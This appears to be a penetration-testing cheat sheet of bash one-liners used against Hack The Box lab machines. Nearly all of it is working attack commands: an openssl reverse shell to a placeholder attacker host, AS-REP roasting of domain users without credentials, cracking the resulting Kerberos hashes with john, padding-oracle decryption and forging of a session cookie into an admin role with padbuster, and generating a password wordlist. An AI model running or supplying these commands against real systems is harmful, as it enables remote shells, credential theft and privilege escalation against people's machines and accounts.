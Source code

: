 ## login via ssh and use tcpdump to monitor loopback interface of traffic in a port (i.e: 389/ldap) | pipe to wireshark to monitor it live
```bash
# only works if the ssh user has sufficient permissions or the tcpdump binary has posix capability set
ssh username@10.10.10.119 "/usr/sbin/tcpdump -i lo -U -s0 -W - 'port 389'" | wireshark -k -i -
```

## openssl reverse shell 
```bash
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s
```

## generate passwd hash with openssl
```sh
openssl passwd -1 -salt rh0x01 password123
```

## check ASREPRoast for all domain users (without credentials)
```bash
for user in $(cat users.txt); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```

## john crack krb5asrep hash
```bash
john --format:krb5asrep alfresco.kerb --wordlist=/usr/share/wordlists/rockyou.txt
```

## decrypt cookie with padbuster
```bash
padbuster http://docker.hackthebox.eu:30956/profile.php fpHSDPAvUpGGyRtXuqOS9DsQupZ6mbO1f0oD5/p7XWTfEMhtyCj0rg== 8 --cookie "iknowmag1k=fpHSDPAvUpGGyRtXuqOS9DsQupZ6mbO1f0oD5/p7XWTfEMhtyCj0rg==;PHPSESSID=o376o30lb3aieccf3gi6uj4247"

```
## encrypt cookie with padbuster
```bash
padbuster http://docker.hackthebox.eu:30956/profile.php fpHSDPAvUpGGyRtXuqOS9DsQupZ6mbO1f0oD5/p7XWTfEMhtyCj0rg== 8 --cookie "iknowmag1k=fpHSDPAvUpGGyRtXuqOS9DsQupZ6mbO1f0oD5/p7XWTfEMhtyCj0rg==;PHPSESSID=o376o30lb3aieccf3gi6uj4247" -plaintext '{"user":"a1a1","role":"admin"}'
```

## generate password wordlist with crunch
```bash
crunch 13 13 -t bev,%%@@^1995 -o wordlist.txt
# 13 13 - min max length
# bev - start's with
# @ will insert lower case characters
# , will insert upper case characters
# % will insert numbers
# ^ will insert symbols
```
